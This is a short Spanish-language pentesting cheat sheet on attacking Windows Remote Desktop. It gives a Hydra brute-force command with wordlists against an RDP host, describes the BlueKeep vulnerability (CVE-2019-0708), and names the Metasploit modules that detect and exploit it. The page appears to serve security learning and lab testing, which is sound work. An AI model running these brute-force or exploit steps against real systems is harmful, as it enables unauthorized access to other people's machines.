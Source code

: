 # RDP

## Fuerza Bruta

### Hydra

Para hacer fuerza bruta usamos hydra de la siguiente forma:

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://192.168.1.1 -s 3333
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## BlueKeep (CVE-2019-0708)

{% hint style="info" %}
BlueKeep (CVE-2019-0708) es una vulnerabilidad crítica en el servicio de Remote Desktop Protocol (RDP) de Microsoft Windows. Esta vulnerabilidad permite la ejecución remota de código en sistemas vulnerables, lo que significa que un atacante puede tomar el control de un equipo afectado sin necesidad de credenciales de usuario

Algunos S.O. afectados:

* Windows XP
* Windows Vista
* Windows 7
* Windows Server 2003
* Windows Server 2008 & R2
{% endhint %}

### Detección

Podemos usar el siguiente modulo de metasploit:

```bash
/auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

### Explotación

Podemos usar el siguiente modulo de metasploit:

```bash
/exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>
